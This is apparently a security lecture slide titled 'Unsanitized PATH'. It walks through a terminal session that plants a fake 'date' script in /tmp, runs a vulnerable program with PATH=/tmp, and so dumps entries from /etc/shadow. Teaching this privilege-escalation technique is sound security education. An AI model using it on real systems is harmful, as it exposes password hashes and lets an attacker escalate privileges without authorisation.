

Unsanitized PATH
bash$ cat /tmp/date
#!/bin/sh
/bin/cat /etc/shadow
bash$ chmod 777 /tmp/date
bash$ PATH=/tmp ./vuln
root:*:17431:0:99999:7:::
daemon:*:17431:0:99999:7:::
bin:*:17431:0:99999:7:::
sys:*:17431:0:99999:7:::
sync:*:17431:0:99999:7:::
games:*:17431:0:99999:7:::
man:*:17431:0:99999:7:::
…